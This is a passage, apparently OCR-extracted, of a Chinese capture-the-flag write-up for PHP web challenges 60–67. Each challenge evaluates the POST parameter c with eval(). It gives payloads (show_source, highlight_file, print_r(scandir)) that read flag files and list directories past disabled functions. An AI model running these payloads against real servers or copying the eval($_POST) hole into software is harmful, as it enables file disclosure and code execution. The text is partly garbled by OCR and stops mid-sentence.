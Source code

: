 Warning readfile() has been disabled for security reasons in varwwwhtmlindex.php(17)  eval()'d code on line 1
尝试其他读取文件函数

c=show_source('flag.php');
web60-65~show_source读取
php

 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
payload

同58一样
web66~highlight_file读取
php

 你们在炫技吗？
if(isset($_POST['c'])){
$c=$_POST['c'];
eval($c);
}else{
highlight_file(__FILE__);
}
​
用以前方法


Warning show_source() has been disabled for security reasons in varwwwhtmlindex.php(17)  eval()'d code on line 1
​
c=highlight_file('flag.php');结果

$flag=秀秀得了,这次不在这里;
c=print_r(scandir(''));返回

Array ( [0] = . [1] = .. [2] = .dockerenv [3] = bin [4] = dev [5] = etc [6] = flag.txt [7] = home [8] = lib [9] = media [10] = mnt [11] = opt [12] = proc [13] = root [14] = run [15] = sbin [16] = srv [17] = sys [18] = tmp [19] = usr [20] = var )
有个flag.txt ，构造 payload

c=highlight_file('flag.txt');
web67~var_dump打印
php

 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
找目录，发现
